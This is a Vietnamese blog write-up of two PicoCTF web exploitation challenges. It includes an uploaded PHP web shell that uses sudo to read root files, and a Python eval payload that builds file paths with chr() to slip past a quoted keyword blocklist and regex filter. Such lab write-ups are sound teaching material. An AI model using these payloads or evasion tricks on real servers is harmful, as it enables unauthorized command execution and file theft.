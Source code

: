 ```yaml
---
title: '[PicoCTF] Web Exploitation Medium'
published: 2025-03-04
description: 'Write up vài bài web medium trên picoctf trước khi chuyển sang weigh căng hơn'   
image: 'https://raw.githubusercontent.com/Cajac/picoCTF-Writeups/refs/heads/main/picoctf_logo.png'
tags: [PicoCTF]
category: 'CTF'
draft: false
lang: 'vi'
---
```


# n0s4n1ty 1:
Bài này úp file lên để server thực thi mã độc (php), do server ko sanitize đúng cách.

Giải thích payload bên dưới:     
1. Thẻ pre để hiển thị theo hàng cho đẹp (kiểu html)
2. Vẫn còn đang ở user www-data nên ko thể command injection abc;xyz;hehe kiểu vầy
    bởi khi chạy sudo su; xong nó sẽ lập tức thoát vì nó là subshell root

=> Phải đảm bảo cùng 1 phiên dùng lệnh
    system("sudo bash -c "cd /root/ && ls -la && cat flag.txt");

Payload:
```
<?php
echo "<pre>";
system("sudo bash -c "cd /root/ && ls -la && cat flag.txt");
echo "</pre>";
?>
```

# ev@l:
```
open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116), chr(114)).read()

tương ứng cho:
open("/flag.txt", "r").read()
```

Ban đầu định dùng os hay __import rồi read hoặc sys hoặc subprocess để đọc nhưng regex của đề đã chặn
đây là regex của đề:

```
Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

